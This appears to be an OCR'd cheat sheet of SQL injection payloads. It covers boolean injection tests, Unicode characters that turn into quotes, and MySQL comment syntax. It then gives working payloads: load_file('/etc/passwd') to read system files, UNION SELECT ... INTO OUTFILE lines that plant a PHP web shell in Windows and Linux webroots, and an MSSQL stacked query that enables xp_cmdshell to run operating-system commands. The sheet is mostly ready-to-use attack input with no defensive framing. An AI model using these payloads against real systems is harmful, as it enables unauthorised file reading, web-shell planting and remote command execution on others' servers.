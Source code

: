 ```bash
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false

Weird characters

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")
Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')
```


### MYSQL Comments
-- - Note the space after the double dash
/* MYSQL Comment */
/*! MYSQL Special SQL */
/*!32302 10*/ Comment for MYSQL version 3.23.02

-- - to emphasize space

### Load files using SQLi
```bash
UNION SELECT 1, load_file(/etc/passwd) #

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
```

### Write files using SQLi

```bash

#dont forget to encode

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'

http://example.com/photoalbum.php?id=1 union all select 1,2,3,4,"<?php echo
shell_exec($_GET['cmd']);?>",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
```

### EXEC shell in MSSQL

```powershell

# inject as a stacked query

12345'; EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'  -- pFml

```
